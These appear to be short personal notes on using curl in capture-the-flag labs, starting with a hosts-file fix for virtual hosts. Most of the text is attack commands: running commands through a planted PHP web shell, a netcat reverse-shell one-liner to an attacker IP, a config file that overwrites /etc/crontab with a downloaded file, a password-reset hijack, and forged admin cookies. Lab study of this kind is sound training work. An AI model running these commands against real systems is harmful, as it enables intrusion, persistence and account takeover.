


curl & dns
DNS Isolation (Igintion@HTB) can be temporarily solved by adding IP & Virutal Host Name in our local hosts file.
┌──(root💀matrix)-[~]
└─# cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 matrix.matrix.securex.net matrix
10.129.88.45 ignition.htb
curl -v http://{Target_IP}
tee is used to edit here...

More About Curlcurl -s
http://10.10.10.150/secret.txt | base64 -d && echo
-s For Silent Mode
After Getting Remote Code Execution for a php web server.
[In the index.php we managed to add “system($_REQUEST['pwn']);” ]
On Browser:
http://10.10.10.150/index.php?pwn=idCurl Terminal Alternative:
curl
http://10.10.10.150/index.php -G --data-urlencode ‘pwn=id’
-G For GET method, rather than post.
--data-urlencode : Converts the commands into url readable form http://.....php?pwn=
Reverse shell Example
curl
http://10.10.10.150/index.php -G --data-urlencode 'pwn=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 1234 >/tmp/f'
curl -K config_file : This option is used a specify a config file. The values will override the -o output.
Example contents of config_file:
url = "
http://10.10.14.2/crontab"
output = "/etc/crontab"
Base Password Change Request:curl '
http://10.10.226.40/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
Demonized Password Change Request(bob gets a mail):curl '
http://10.10.226.40/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=bob@customer.acmeitsupport.thm'
Tampering the Cookies:curl -H "Cookie: logged_in=true; admin=true"
http://10.10.226.40/cookie-test